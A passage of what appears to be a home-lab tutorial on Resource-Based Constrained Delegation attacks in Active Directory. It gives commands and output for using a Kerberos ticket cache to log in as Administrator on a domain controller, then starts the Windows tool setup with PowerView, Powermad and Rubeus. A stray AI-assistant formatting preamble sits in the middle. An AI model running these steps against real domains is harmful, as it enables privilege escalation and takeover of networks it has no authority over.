 
### 4. Export the Ticket and Authenticate

Export the saved Kerberos ticket and authenticate using it:

```bash
export KRB5CCNAME=administrator@cifs_DC01-FURIOUS5.furious.local@FURIOUS.LOCAL.ccache
netexec smb 192.168.129.140 -u 'Administrator' --use-kcache
```

```bash
┌──(kali㉿kali)-[~/Home-lab/rbcd]
└─$ export KRB5CCNAME=administrator@cifs_DC01-FURIOUS5.furious.local@FURIOUS.LOCAL.ccache 
                                                                                                                                                           
┌──(kali㉿kali)-[~/Home-lab/rbcd]
└─$ netexec smb 192.168.129.140 -u 'Administrator' --use-kcache                          
SMB         192.168.129.140 445    DC01-FURIOUS5    [*] Windows Server 2022 Build 20348 x64 (name:DC01-FURIOUS5) (domain:furious.local) (signing:True) (SMB:False)                                                                                                                                                    
SMB         192.168.129.140 445    DC01-FURIOUS5    [+] furious.local\Administrator from ccache (Pwn3d!)
               
```
---


Here's your revised and professionally formatted Markdown documentation for **"Exploiting RBCD Attack (From Windows)"**. I've kept your original content but corrected grammar, added clarity where needed, fixed formatting issues, and ensured a clean professional tone, without adding unnecessary details.

---

## Exploiting RBCD Attack (From Windows)



### 1. Upload Required Tools

First, upload the following tools to the target system:

* `PowerView.ps1`
* `Powermad.ps1`
* `Rubeus.exe`

Then load PowerView and Powermad into the current PowerShell session:

```powershell
. .\PowerView.ps1
. .\Powermad.ps1
```

---

### 2. Create a New Machine Account
